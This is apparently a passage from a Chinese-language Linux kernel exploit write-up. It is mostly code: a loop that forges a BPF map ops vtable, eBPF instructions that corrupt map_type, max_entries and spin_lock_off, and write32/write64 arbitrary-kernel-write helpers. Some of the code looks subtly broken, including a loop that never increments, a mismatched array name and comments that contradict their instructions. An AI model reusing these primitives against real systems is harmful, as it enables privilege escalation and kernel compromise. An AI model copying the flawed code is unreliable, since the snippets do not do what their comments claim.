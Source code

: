 ###### 复制ops虚函数表，并替换map_push_elem

```
	// Step 3: replace map->ops->map_push_elem with map_get_next_key
	char fake_ops[0xe8] = { 0 };
	for(int i=0; i<0xe8; i+8){
		// make a fake ops at &value[0x10]
		*(size_t*)&ops[i] = read64(ops_addr + i);	
		update_elem(0x10 + i/8, *(size_t*)&ops[i]);
	}
	update_elem(0x10 + 15*8, *(size_t*)&ops[4 * 0x8]);
```

之后的步骤通过eBPF实现

```
		BPF_JMP_IMM(BPF_JNE, BPF_REG_7, 3, 60),	// if r7!=2; goto exit
			BPF_MOV64_REG(BPF_REG_8, BPF_REG_6),	// r8 = r6
			BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0x110),	// r6 = r6*0x110
			BPF_MAP_GET_ADDR(0, BPF_REG_7),				// r7 = &value[0]
			BPF_ALU64_IMM(BPF_SUB, BPF_REG_7, BPF_REG_6),	// r7 -= r6
			BPF_MAP_GET(2, BPF_REG_6),					// r6 = valeu[2]	
			BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_6, 0),	//	*(r7+0) = r6
			BPF_MOV64_REG(BPF_REG_6, BPF_REG_7),			//  r6 = r8 ; recovery r6
			BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0xf8),		// r8 *= 0xf8
			BPF_MAP_GET_ADDR(0, BPF_REG_7),					// r7 = &value[0]
			BPF_ALU64_IMM(BPF_SUB, BPF_REG_7, BPF_REG_8),	// r7 -= r8;	r7 = &map.map_type
			BPF_ST_MEM(BPF_W, BPF_REG_7, 0, 0x17),			// *(r7 + 0) = 0x17;	(STACK)
			BPF_MOV64_REG(BPF_REG_8, BPF_REG_6),			// r8 = r6
			BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0xec),		// r6 = r6*0xec
			BPF_MAP_GET_ADDR(0, BPF_REG_7),					// r7 = &value[0]
			BPF_ALU64_IMM(BPF_SUB, BPF_REG_7, BPF_REG_6),	// r7 -= r6;	r7 = &map.max_entries
			BPF_ST_MEM(BPF_W, BPF_REG_7, 0, -1),			// *(r7 + 0) = -1
			BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0xe4),		// r8 *= 0xe4
			BPF_MAP_GET_ADDR(0, BPF_REG_7),					// r7 = &value[0]
			BPF_ALU64_IMM(BPF_SUB, BPF_REG_7, BPF_REG_8),	// r7 -= r8; r7 = &map.spin_lock_off
			BPF_ST_MEM(BPF_W, BPF_REG_7, 0, 0),				// map.spin_lock_off = 0
			BPF_EXIT_INSN(),

```

任意地址写的方法

```c
void write32(size_t addr, uint32_t data)
{
	uint64_t key = 0;
	data -= 1;
	if (bpf_update_elem(mapfd, &key, &data, addr)) {
		fail("bpf_update_elem failed '%s'\n", strerror(errno));
	}
}
void write64(size_t addr, size_t data)
{
	uint32_t lo = data & 0xffffffff;
	uint32_t hi = (data & 0xffffffff00000000) >> 32;
	uint64_t key = 0;
	write32(addr, lo);
	write32(addr+4, hi);
}
```
